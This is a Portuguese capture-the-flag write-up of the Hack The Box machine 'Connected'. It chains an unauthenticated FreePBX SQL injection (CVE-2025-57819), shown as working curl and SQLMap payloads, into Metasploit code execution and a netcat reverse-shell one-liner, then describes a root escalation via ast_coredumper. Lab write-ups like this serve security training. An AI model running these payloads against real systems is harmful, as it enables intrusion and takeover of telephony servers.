




# HTB-Connected

Comecei fazendo um portscan simples com Nmap para identificar os serviços expostos na máquina:

```bash
justsomeone@underground ~   nmap -sV -sC -Pn -T3 10.129.24.209
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-11 22:06 -0400
Nmap scan report for 10.129.24.209
Host is up (0.18s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
|_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
80/tcp  open  http      Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-title: Did not follow redirect to http://connected.htb/
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
443/tcp open  ssl/https Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2025-11-30T14:07:27
|_Not valid after:  2026-11-30T14:07:27
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
|_ssl-date: TLS randomness does not represent time
```

De início, era possível identificar três portas abertas: SSH na 22, HTTP na 80 e HTTPS na 443.

O serviço web chamou bastante atenção, principalmente pelo redirect para `connected.htb`. Além disso, o certificado SSL revelou o hostname `pbxconnect`, indicando que provavelmente estávamos diante de uma aplicação relacionada a telefonia.



Ao acessar o serviço web, encontrei uma instalação do FreePBX.

Como o FreePBX possui uma interface administrativa exposta, comecei a 
analisar seus endpoints em busca de algum vetor de entrada. Durante essa
 enumeração, encontrei um endpoint interessante em `/admin/ajax.php`.

Testando o parâmetro `brand`, consegui provocar um erro controlado no banco de dados utilizando uma consulta baseada em `EXTRACTVALUE`.



```bash
justsomeone@underground ~   curl -i -k "https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x'+AND+EXTRACTVALUE(1,CONCAT('~USER:',(SELECT+USER()),'~'))+--+"
HTTP/1.1 500 Internal Server Error
Date: Fri, 12 Jun 2026 02:08:59 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=ijongt7eu8i4ev907vih1ieopm; expires=Sun, 12-Jul-2026 02:08:59 GMT; Max-Age=2592000; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Transfer-Encoding: chunked
Content-Type: application/json

{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~USER:freepbxuser@localhost~'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}}%
```

O erro retornado pelo servidor confirmou que a entrada estava chegando até uma consulta SQL e, mais importante, revelou o usuário utilizado pelo banco: freepbxuser

A partir disso, decidi utilizar o SQLMap para automatizar a enumeração e confirmar a extensão da vulnerabilidade.

```c
~ 〉 sqlmap -u "https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x" -p brand --level=5 --risk=3 --batch --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:54:42 /2026-08-06/

[21:54:42] [INFO] resuming back-end DBMS 'mysql'
[21:54:42] [INFO] testing connection to the target URL
[21:54:45] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=evg8frvr6tk...hce7g3tgev'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: brand (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=x' AND EXTRACTVALUE(5477,CONCAT(0x5c,0x716b6b6a71,(SELECT (ELT(5477=5477,1))),0x7176787a71))-- OvvQ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=x';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=x' AND (SELECT 5680 FROM (SELECT(SLEEP(5)))TZvo)-- Fqme
---
[21:54:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 7.4.16, PHP
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[21:54:45] [INFO] fetching database names
[21:54:47] [WARNING] reflective value(s) found and filtering out
[21:54:49] [INFO] retrieved: 'information_schema'
[21:54:50] [INFO] retrieved: 'asterisk'
[21:54:52] [INFO] retrieved: 'asteriskcdrdb'
available databases [3]:
[*] asterisk
[*] asteriskcdrdb
[*] information_schema

[*] ending @ 21:54:52 /2026-08-06/
```

O SQLMap confirmou uma SQL Injection não autenticada no parâmetro `brand`, identificando três técnicas diferentes:

- Error-based;
- Stacked queries;
- Time-based blind.

Além disso, foi possível confirmar que o backend utilizava MariaDB e enumerar os bancos `asterisk` e `asteriskcdrdb`.

Com a vulnerabilidade confirmada, pesquisei por exploits relacionados ao FreePBX e encontrei a CVE-2025–57819,
 que permite transformar a SQL Injection em execução remota de código 
(rce). como recentemente tenho utilizado mais o Metasploit, decidi 
testar o módulo disponível para essa vulnerabilidade:

```c
msf > search CVE-2025-57819

Matching Modules
================

   #  Full Name                                     Disclosure Date  Rank       Check  Name
   -  ---------                                     ---------------  ----       -----  ----
   0  exploit/unix/http/freepbx_unauth_sqli_to_rce  2025-08-28       excellent  Yes    FreePBX ajax.php unauthenticated SQLi to RCE

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/freepbx_unauth_sqli_to_rce

msf > use 0

msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set rhost connected.htb
rhost => connected.htb
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > run
[-] Msf::OptionValidateError One or more options failed to validate: LHOST.
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set lhost tun0
lhost => 10.10.17.17
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set lport 9090
lport => 9090
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > run

```

Depois de configurar o `LHOST` e `LPORT`, o exploit conseguiu criar um cronjob e obter uma sessão Meterpreter na máquina:

```c
[*] Started reverse TCP handler on 10.10.17.17:9090
[+] Created cronjob with job name: 'wWGYue'
[*] Waiting for cronjob to trigger...
[*] Sending stage (3106788 bytes) to 10.129.245.100
[*] Meterpreter session 1 opened (10.10.17.17:9090 -> 10.129.245.100:59332) at 2026-08-06 20:33:20 -0400
[*] Attempting to perform cleanup
[+] Cronjob removed, happy hacking!
```

Com isso, consegui acesso à máquina como o usuário responsável pelo serviço FreePBX, `asterisk`.



Durante a enumeração do diretório `/home/asterisk`, encontrei o `user.txt` e também um arquivo chamado `vGkqNSyAHg`, que posteriormente se mostrou relevante para a investigação do ambiente.

```c

Listing: /home/asterisk
=======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  13    fil   2026-06-04 07:24:19 -0400  .asterisk_history
100600/rw-------  8     fil   2026-06-04 07:24:18 -0400  .bash_history
100644/rw-r--r--  18    fil   2016-12-06 18:19:33 -0500  .bash_logout
100644/rw-r--r--  193   fil   2016-12-06 18:19:33 -0500  .bash_profile
100644/rw-r--r--  231   fil   2016-12-06 18:19:33 -0500  .bashrc
040775/rwxrwxr-x  18    dir   2026-06-04 07:23:48 -0400  .cache
040755/rwxr-xr-x  37    dir   2026-06-04 07:23:48 -0400  .config
040775/rwxrwxr-x  83    dir   2025-11-30 15:29:56 -0500  .gnupg
040755/rwxr-xr-x  28    dir   2025-11-30 09:07:38 -0500  .node
040755/rwxr-xr-x  20    dir   2025-11-30 09:07:38 -0500  .node-gyp
040755/rwxr-xr-x  86    dir   2025-11-30 09:07:42 -0500  .npm
100644/rw-r--r--  18    fil   2025-11-30 15:29:57 -0500  .npmrc
100644/rw-r--r--  0     fil   2026-05-19 14:41:51 -0400  .odbc.ini
040755/rwxr-xr-x  17    dir   2025-11-30 09:07:42 -0500  .package_cache
040775/rwxrwxr-x  165   dir   2025-11-30 15:29:57 -0500  .pm2
100640/rw-r-----  33    fil   2026-08-06 18:43:17 -0400  user.txt
100755/rwxr-xr-x  250   fil   2026-08-06 20:33:03 -0400  vGkqNSyAHg

meterpreter > cat user.txt
<FLAG>

```

Depois de obter a flag de usuário, preferi abandonar o Meterpreter e obter uma shell interativa tradicional.

```c
meterpreter > shell
Process 23008 created.
Channel 2 created.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.17.17 6767 >/tmp/f

```

Na minha máquina, recebi a conexão utilizando Netcat:

```c
~ 〉 nc -lnvp 6767
Listening on 0.0.0.0 6767
Connection received on 10.129.245.100 51282
bash: no job control in this shell
______                   ______ ______ __   __
|  ___|                  | ___ \| ___ \\ \ / /
| |_    _ __   ___   ___ | |_/ /| |_/ / \ V /
|  _|  | '__| / _ \ / _ \|  __/ | ___ \ /   \
| |    | |   |  __/|  __/| |    | |_/ // /^\ \
\_|    |_|    \___| \___|\_|    \____/ \/   \/

NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address       | IP Addresses              |
+-----------+-------------------+---------------------------+
| eth0      | A2:DE:AD:84:58:59 | 10.129.245.100            |
|           |                   | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+

Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
    http://www.freepbx.org/support-and-professional-services

+---------------------------------------------------------------------+
| This machine is not activated.  Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules.                                         |
|                                                                     |
| If you already have a Deployment ID for this machine, simply run:   |
|                                                                     |
|    fwconsole sysadmin activate deploymentid                         |
|                                                                     |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the   |
| Web UI) and create a new Deployment there.                          |
+---------------------------------------------------------------------+

```

Durante essa etapa, encontrei um componente relacionado ao gerenciamento do FreePBX e comecei a analisar seu comportamento.

Depois de pesquisar sobre o componente, encontrei a **CVE-2026–23741**, uma vulnerabilidade classificada como CWE-427 — Uncontrolled Search Path Element.



[https://github.com/YuvrajSHAD/FreePBX-CVE-2025-57819](https://github.com/YuvrajSHAD/FreePBX-CVE-2025-57819)

A vulnerabilidade está relacionada ao `ast_coredumper`, localizado em`/usr/share/asterisk/contrib/scripts/ast_coredumper`

O problema ocorre porque o script executado com privilégios de `root` utiliza um arquivo de configuração localizado em `/etc/asterisk/ast_debug_tools.conf`. Como esse arquivo pode ser influenciado pelo usuário `asterisk`, torna-se possível controlar comandos que acabam sendo executados pelo processo privilegiado.

A cadeia de exploração pode ser resumida da seguinte forma:

O usuário `asterisk` cria um arquivo especialmente elaborado no diretório monitorado pelo `incrond`, processado pelo `sysadmin_manager` com privilégios de root. O fluxo chega ao `fwconsole-commands`, permitindo injetar comandos e obter execução arbitrária como root.

Com a cadeia de privilégio identificada, consegui executar comandos com privilégios de `root` e obter uma shell administrativa.

Por fim, bastou acessar a flag localizada no diretório `/root`:

```c
[root@connected root]# cat root.txt

<FLAG>
```


